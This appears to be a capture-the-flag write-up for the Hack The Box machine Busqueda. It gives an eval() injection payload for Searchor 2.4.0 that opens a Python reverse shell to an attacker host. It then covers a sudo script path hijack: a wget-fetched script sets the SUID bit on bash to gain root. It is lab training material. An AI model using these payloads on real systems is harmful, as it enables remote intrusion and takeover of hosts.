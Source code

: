 ```yaml
---
title: "Hack The Box - Busqueda [Easy]"
date: 2023-04-09T19:42:27+03:00
draft: true
description: 
---
```


This machine is rather simple, upon scanning it we can see that the website has a generating search query URLs input form. On the bottom of the page, we can see the versions of the used software:

```
Powered by Flask and Searchor 2.4.0

$ whatweb 
Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.1.2 Python/3.10.6], IP[10.10.11.208], JQuery[3.2.1], Python[3.10.6], Script, Title[Searcher], Werkzeug[2.1.2]
```

A simple google search would yield a bug that has been removed in Searchor 2.4.2+ and before that `eval()` was used in the Searchor CLI module. Assuming that the website uses that, we can send the following payload:

```bash
POST /search HTTP/1.1
Host: searcher.htb
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://searcher.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://searcher.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

engine=Accuweather&query=',copy_url=__import__('os').system(""" python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<myip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' """))
```

This would create a reverse shell to the machine. 

The currently used user is `svc` upon running 

```bash
$ sudo -l
```

 We can see that we can use this command:
 
```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

I also discovered the `/opt/scripts` folder that had some scripts inside, including `full-checkup.sh`, I've run the command in the `/opt/scripts/` folder, and it successfully retrieved some information about the currently running services, I tried to run it in a different folder, and it gave me `Something went wrong`, I've created a dummy `full-checkup.sh` with `chmod +s /bin/bash` contents inside and ran the command again, it just printed out `[+] Done` and after that a simple `bash -p` gave me root user. 

```bash
$ cd /tmp && wget http://<ip>:8000/full-checkup.sh && chmod +x ./full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
$ bash -p
$ cat /root/root.txt
```